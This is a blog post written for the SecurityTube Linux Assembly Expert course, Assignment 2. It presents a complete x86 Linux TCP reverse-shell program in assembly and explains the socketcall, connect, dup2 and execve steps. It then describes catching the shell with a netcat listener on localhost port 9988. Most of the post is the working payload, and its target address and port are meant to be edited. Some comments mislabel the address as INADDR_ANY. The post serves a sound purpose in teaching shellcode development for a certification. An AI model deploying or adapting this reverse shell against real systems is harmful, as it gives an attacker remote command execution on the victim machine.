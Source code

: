 ```yaml
---
title: "SLAE Assignment 2"
date: 2018-02-05
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Assignment 2

[GitHub code repo](https://github.com/wsummerhill/SLAE)

Assignment 2 of the SLAE is very similar to assignment 1. This time we’re required to create a TCP reverse shell and connect to an IP address and port of our choosing. These are configured right into the script at the top and can be modified as needed.

So for a TCP reverse shell, the functions required will be the following:
- socketCall
- connect
- dup2 (x3)
- execve

The new function we’re introducing is the connect function which can be seen below.
```bash
int connect(sockfd, *sockaddr addr, addrlen))
```

I used my previous code from Assignment 1 and removed some of the old functions then made some additions to get the following code below. 
```cpp
;Author: Will Summerhill
;Create shell_reverse_tcp shellcode
;reverse connection to IP address and port - accept as input
;exec shell on successful connection to remote host

;functions needed: socketcall (66 hex, 102 decimal), connect, dup2 (0x63), execve (0x11)


global _start


section .text
_start:
  ;Configure IP address and port here
  addr: equ 0x0101007F  ;IP Address = 127.0.1.1 in little endian
  port: equ 0x0427  ;Port = 9988 in little endian


; SocketCall function:
  xor  eax, eax    ;AF_INET = 2
  mov al, 0x2

  xor ebx, ebx    ;EBX: SOCK_STREAM = 1
  mov bl, 0x1

  xor edx, edx    ;EDX: IPPROTO_IP = 0

  push edx                ; TCP = 0
  push ebx                ; SOCK_STREAM = 1 
  push eax                ; AF_INET = 2 

  mov ecx, esp    ;save stack into ECX
  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  int 0x80        ;execute

  mov edx, eax    ;EDX = sockfd output

; Connect function: connect to configured IP/port
  ;int connect(sockfd, *sockaddr addr, addrlen))
  ;Push *addr() first onto stack
  ;*addr(addr family = AF_INET [2], port [9988], IP addr = INADDR_ANY [127.0.1.1])
  xor ebx, ebx
  push addr         ;INADDR_ANY = 127.0.0.1
  push word port    ;connect to port = 9988 in little endian  
  push word 0x2     ;AF_INET = 2
  mov ecx, esp      ;save stack into ECX

  ;Now push whole bind() function onto stack in reverse order
  push 0x10    ;addrlen size
  push ecx     ;*addr function
  push edx     ;sockfd = socket from Socketcall function above

  mov ecx, esp    ;save stack into ECX again

  ;call syscall to execute
  xor ebx, ebx
  mul ebx         ;zero out ebx and eax together
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  mov bl, 0x3     ;socketcall type = sys_connect 3

  mov ecx, esp    ;move to ECX for execution
  int 0x80        ;execute BIND

; Dup2 functions: redirect stdin, stdout, stderr to incoming socket
  ;dup2(int oldfd, newfd)  [syscall 63 (0x3f)]
  ;  EAX = 0x3f (63 decimal)
  ;  EBX = oldfd
  ;  ECX = newfd
  xor eax, eax
  mov al, 0x3f  ;dup2 syscall number (3f hex, 63 decimal)

  ;STDIN = 0
  mov ebx, edx  ;oldfd into EBX
  xor ecx, ecx  ;STDIN = 0
  int 0x80      ;execute dup2(oldfd = ebx, newfd = STDIN)

  ;STDOUT = 1
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx  ;oldfd into EBX
  inc ecx       ;STDOUT = 1
  int 0x80      ;execute dup2(oldfd = ebx,  newfd = STDOUT)

  ;STDERR = 2
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx
  inc ecx       ;STDERR = 2
  int 0x80      ;execute dup2(oldfd = ebx, newfd = STDERR)

; Execve function to execute //bin/sh
  ;execve(filename, argv[], envp[])
  ;  EBX = //bin/sh 0x0
  ;  ECX = address of //bin/sh
  ;  EDX = 0x000000

  ;Push contents in reverse order
  xor eax, eax
  push eax    ;push null first

  ; PUSH //bin/sh (8 bytes) in reverse order
  push 0x68732f2f    ;n/sh
  push 0x6e69622f    ;//bi
  mov ebx, esp       ;move into EBX 

  push eax  ;add null again
  push ebx  ;push address of //bin/sh to stack
  mov ecx, esp
  push eax  ;null terminator after //bin/sh
  mov edx, esp

  mov al, 0xb  ;execve syscall = 11
  int 0x80  ;execute EXECVE to start bind shell
```

Before executing the reverse shell we will setup a listener with netcat on the localhost to listen on port 9988. This is where the shell will get executed once connection is established.  

![EmbeddedImage](https://user-images.githubusercontent.com/35749735/206794238-4353d8a5-0960-4f8f-bf52-99152834de9d.png)

Now once I execute the program we’ll get a reverse shell on the listening host/port.  

![EmbeddedImage1](https://user-images.githubusercontent.com/35749735/206794246-49564487-89d0-46ad-8431-0e109d9ae1bb.png)

-----------

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%202).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
